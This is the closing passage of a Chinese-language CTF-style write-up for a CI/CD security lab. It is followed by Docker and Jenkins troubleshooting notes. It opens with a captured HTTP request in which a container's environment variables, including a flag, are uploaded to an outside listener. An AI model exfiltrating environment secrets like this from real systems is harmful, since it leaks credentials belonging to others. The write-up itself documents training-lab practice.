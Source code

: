 ```bash
POST / HTTP/1.1
Host: 10.207.127.144:39502
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 720
Content-Type: multipart/form-data; boundary=------------------------848315760974512a

--------------------------848315760974512a
Content-Disposition: form-data; name="file"; filename="flag.txt"
Content-Type: text/plain

HOSTNAME=bdc53e195baf
PYTHON_VERSION=3.8.18
PWD=/app
FLAG11=xxx
PYTHON_SETUPTOOLS_VERSION=57.5.0
HOME=/root
LANG=C.UTF-8
GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568
SHLVL=1
PYTHON_PIP_VERSION=23.0.1
PYTHON_GET_PIP_SHA256=22b849a10f86f5ddf7ce148ca2a31214504ee6c83ef626840fde6e5dcd809d11
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/c6add47b0abf67511cdfb4734771cbab403af062/public/get-pip.py
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env

--------------------------848315760974512a--
```





至此这个靶场结束。学到了很多的东西。

## 踩坑

如果built-in节点经常有任务卡住了，重启jenkins-server就可以了。

`virtualenv venv`进行就报错的话就admin登上jenkins把前面会报错的命令删掉就行了。

这个靶场给我的感觉就是环境的体验比较差，很多地方经常很卡或者报错，刷完之后才发现因为我是m1芯片，为了兼容环境设置了`DOCKER_DEFAULT_PLATFORM=linux/amd64`的环境变量，因此构建的镜像都是amd64的，导致了问题。后来把DOCKER_DEFAULT_PLATFORM改成`linux/arm64`后再`docker-compose up -d`来创建环境，其中有些镜像会提示只有amd64，在`docker-compose.yaml`额外设置架构就可以，例如：

```yaml
  localstack:
    image: localstack/localstack:0.14.1-amd64
    platform: linux/amd64
    container_name: localstack
    restart: always
    networks:
      - goat
```

这样启动的靶场又流程又不会出问题了。